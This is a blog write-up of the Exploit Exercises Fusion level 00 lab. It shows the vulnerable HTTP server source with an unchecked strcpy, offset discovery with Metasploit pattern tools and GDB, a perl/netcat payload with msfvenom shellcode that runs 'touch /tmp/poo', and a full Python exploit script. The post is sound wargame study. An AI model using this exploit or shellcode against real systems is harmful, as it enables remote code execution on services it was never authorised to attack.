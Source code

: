 ```yaml
---
layout: post
title: "Exploit Exercises - Fusion 00"
date: 2012-04-09T17:13:00-04:00
comments: true
categories:
 - wargames
 - linux
 - exploit-exercises
 - fusion
 - hacking
---
```


I was very excited to see the announcement on twitter, that [Fusion](http://exploit-exercises.com/fusion) was going to be released, even if it's just the first 10 levels. I was a bit bummed, as I didn't think I'd get to work on it much, until I complete [PWB](http://www.offensive-security.com/online-information-security-training/penetration-testing-backtrack/), but I managed to find a little time to at least start it. I pulled up [level 00](http://exploit-exercises.com/fusion/level00), which looks to be a basic stack overflow in an http server. The code for the server is below: 

```
#include "../common/common.c" 

int fix_path(char *path)
{
 char resolved[128];

 if(realpath(path, resolved) == NULL) return 1; // can't access path. will error trying to open
 strcpy(path, resolved);
}

char *parse_http_request()
{
 char buffer[1024];
 char *path;
 char *q;

 printf("[debug] buffer is at 0x%08x :-)\n", buffer);

 if(read(0, buffer, sizeof(buffer)) <= 0) errx(0, "Failed to read from remote host");
 if(memcmp(buffer, "GET ", 4) != 0) errx(0, "Not a GET request");

 path = &buffer[4];
 q = strchr(path, ' ');
 if(! q) errx(0, "No protocol version specified");
 *q++ = 0;
 if(strncmp(q, "HTTP/1.1", 8) != 0) errx(0, "Invalid protocol");

 fix_path(path);

 printf("trying to access %s\n", path);

 return path;
}

int main(int argc, char **argv, char **envp)
{
 int fd;
 char *p;

 background_process(NAME, UID, GID); 
 fd = serve_forever(PORT);
 set_io(fd);

 parse_http_request(); 
}
```

I initially had to read through the code a few times to figure out where the overflow was, to be quite honest. When an HTTP request comes in, it goes to the "parse_http_request" method. From there, it reads the buffr in by using the "read" method. Unfortunately for us, it is being careful to only read in as many bytes as it can put into the buffer.  It then does some basic handling to parse out the request.  It verifies that it was a "GET" request, and that it was done using HTTP/1.1. After that, it will pass the path of the URI to "fix_path". In this method, there <i>IS</i> an overflow, since the "resolved" variable has 128 bytes to hold data, but there is no checking of size when the "strcpy" is done. 

I logged into the machine, and made sure that I could actually get a core dump to be created if the process had an exception.  To do this, I changed the core settings for my user: 

```
fusion@fusion:/$ ulimit -c unlimited
```

Based on my analysis, I knew I would be overflowing the URI path, but based on the note given to me, I would put my shellcode after the "HTTP/1.1" since there was a lot more room.  However, I didn't know the EIP offset. So I generated a quick MSF pattern on another machine: 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

I then started to wire up an exploit like so: 

```
fusion@fusion:/$ perl -e 'print "GET /". "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag" . "\x99\xf9\xff\xbf" . " HTTP/1.1\n" . "\x90"x100 . "\xcc"x100' | nc localhost 20000
```

Note that the "\x99\xf9\xff\xbf" value was simply guessed by taking the buffer offset (conveniently given to us at runtime) of "0xbffff8f8", and adding to it enough bytes for the "GET", the MSF buffer, and the "HTTP/1.1". I had played previously by hand, and knew how long the buffer would be, so I didn't need to break this into 2 steps. 

After executing the command, I found a handy "core" file in the root directory. So I loaded it up in GDB to get the offset: 

```
fusion@fusion:/$ sudo gdb --core=/core --quiet
[New LWP 2280]
Core was generated by `/opt/fusion/bin/level00'.
Program terminated with signal 11, Segmentation fault.
#0  0x65413665 in ?? ()
```

Next, I took that EIP value, and ran it through the MSF Pattern Offset calculator: 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x65413665
139
```

This was convenient enough to let me know that the first 139 bytes were junk, but then I had direct access to the EIP. If my estimate for a return address was close enough to hit a nop sled, it would then hit the "\xcc" debug/trace point. I then tested that: 

```
fusion@fusion:/$ perl -e 'print "GET /". "A"x139 . "\x99\xf9\xff\xbf" . " HTTP/1.1\n" . "\x90"x100 . "\xcc"x100' | nc localhost 20000
```

When I loaded the new core file into GDB, I saw that it indeed hit the debug trap: 

```
fusion@fusion:/$ sudo gdb --core=/core --quiet
[New LWP 2310]
Core was generated by `/opt/fusion/bin/level00'.
Program terminated with signal 5, Trace/breakpoint trap.
#0  0xbffff9fb in ?? ()
(gdb) x/10x $eip
0xbffff9fb:     0xcc    0xcc    0xcc    0xcc    0xcc    0xcc    0xcc    0xcc
0xbffffa03:     0xcc    0xcc
```

The next step was to generate some shellcode.   verified that the process was running as a UID of 20000, and not SUID, so I'm guessing at the end result here. The challenge to me was actually getting the exploit to work, so what the shellcode did was not a big event for me.  I decided to just make it write a file to /tmp. This could however be adapted to anything else. 

I used Metasploit's MSFVenom tool to generate me some shellcode to "touch /tmp/poo" as a test: 

```
mandreko@li225-134:~$ msfvenom -p linux/x86/exec -f pl CMD="touch /tmp/poo"
my $buf =
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73" .
"\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0f\x00\x00" .
"\x00\x74\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x70\x6f" .
"\x6f\x00\x57\x53\x89\xe1\xcd\x80";
```

I then plugged that shellcode into my exploit: 

```
fusion@fusion:/$ perl -e 'print "GET /". "A"x139 . "\x99\xf9\xff\xbf" . " HTTP/1.1\n" . "\x90"x100 . "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0f\x00\x00\x00\x74\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x70\x6f\x6f\x00\x57\x53\x89\xe1\xcd\x80"' | nc localhost 20000
[debug] buffer is at 0xbffff8f8 :-)
```

Lastly, I verified that it did run the shellcode: 

```
fusion@fusion:/$ ls -al /tmp
total 8
drwxrwxrwt  2 root  root  4096 2012-04-09 21:25 .
drwxr-xr-x 22 root  root  4096 2012-04-09 21:22 ..
-rw-r--r--  1 20000 20000    0 2012-04-09 21:25 poo
```

There you have it, successful exploitation, using very basic methods. This one felt very much like the first day back from summer break, but I'm guessing it'll get much harder quickly. 

UPDATE 5/7/2012: Added python exploit: 

```
# Fusion Level 00
# http://exploit-exercises.com/fusion/level00
# Matt Andreko
# twitter: @mandreko
# contact: matt [at] mattandreko.com

from sys import exit
from struct import pack
from optparse import OptionParser
from socket import *

def exploit(hostname, port):
        junk = "A"*139
        ret = pack("<I", 0xbffff999)
        nops = "\x90"*100
        shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0f\x00\x00\x00\x74\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x70\x6f\x6f\x00\x57\x53\x89\xe1\xcd\x80"

        s = socket(AF_INET, SOCK_STREAM)
        try:
                print "[*] Connecting to %s on port %s" % (hostname, port)
                s.connect((hostname, port))
        except:
                print "[*] Connection error"
                exit(1)

        print s.recv(1024)
        s.send("GET /" + junk + ret + " HTTP/1.1\n" + nops + shellcode)


if __name__ == "__main__":
    parser = OptionParser("usage: %prog [options]")
    parser.add_option("-H", "--host", dest="hostname", default="127.0.0.1",
     type="string", help="Target to run against")
    parser.add_option("-p", "--port", dest="portnum", default=20000,
     type="int", help="Target port")

    (options, args) = parser.parse_args()

    exploit(options.hostname, options.portnum)
```